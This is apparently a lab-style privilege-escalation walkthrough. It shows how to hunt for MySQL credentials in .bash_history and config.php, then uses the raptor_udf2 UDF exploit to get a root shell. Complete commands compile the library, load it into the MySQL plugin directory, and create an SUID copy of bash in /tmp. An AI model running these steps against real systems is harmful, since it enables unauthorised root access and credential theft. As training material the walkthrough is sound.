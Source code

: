 Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes.
# Hunting for Database Credentials

We could firstly try to sign in without a password since the default for MySQL root user is blank password using `mysql -u root -p`, but if it didn't work, we might have to try other methods.
### Method 1

First, we should always be checking the **.bash_history** file in our current users home directory, as well as any other users home directory that we have access to.

```bash
cd /home && ls -l
```

If there are multiple profiles in here, try to access all of them. Note that we did not see root’s home profile here because the root home profile is located at /root. Also note that bash history files are hidden so they start with a period [ . ] and can be seen by using **ls -la**.

```bash
cd juggernaut && cat .bash_history
```
### Method 2 

Navigating to /var/www/, we can see that there are a few files here, but ‘config.php’ stands out most of all.

And when we check the file, we can see that it is used to access the MySQL database as root and shows the cleartext username and password.
# Exploitation

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

```bash
cd /home/user/tools/mysql-udf
```

Compile the raptor_udf2.c exploit code using the following commands:

```bash
gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

```bash
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit.

These commands are used to create a table with one (BLOB) column. Then we insert the contents of the file specified by `/path/to/file` into the table `foo` and selects all the rows from the table `foo` and writes them to a file called `raptor_udf2.so` in the directory `/usr/lib/mysql/plugin`. Next, we create a MySQL function called `do_system` and specifying the shared library file `raptor_udf2.so`, Finally we get a simple UDF that allows executing system commands from within a MySQL query:

```bash
use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```bash
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```
